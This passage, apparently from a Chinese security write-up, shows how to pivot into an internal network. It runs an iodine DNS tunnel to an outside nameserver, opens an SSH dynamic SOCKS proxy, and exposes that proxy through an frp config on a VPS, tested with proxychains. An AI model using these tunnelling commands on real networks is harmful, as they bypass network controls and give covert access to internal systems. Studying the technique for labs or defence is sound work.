 ```bash
chmod 777  /tmp/iodine
nohup sleep 20 && /tmp/iodine -f -P datou ns1.cqupt.team &
```

然后停止运行 dockers

```bash
docker stop id
```

起服务端创建一个 192.168.0.1 网段的虚拟网卡

```bash
iodined -f -c -P datou 192.168.0.1 ns1.cqupt.team -DD
```

然后用 ssh 创建 socks 代理

```bash
ssh -N -D 29999 root@192.168.0.2
```

frpc.ini

```bash
[common]
server_addr = vpsip
server_port = 7000

[yj]
type = tcp
local_ip = 127.0.0.1
local_port = 29999
remote_port = 39999
```

这里其实就我们让本地监听了 29999 端口，然后修改完了 frpc.ini frpc 和 frps 全在 vps 上运行，这样 frp 就会把 29999 端口映射掉 39999 端口上，也就是相当于在一个 39999 端口建立和内网的代理

[![](assets/1708919820-75b7b4490ba7af711ec767c95b8c7f06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024900-b7654eba-cb69-1.png)

连接成功拿 proxychains test 一下
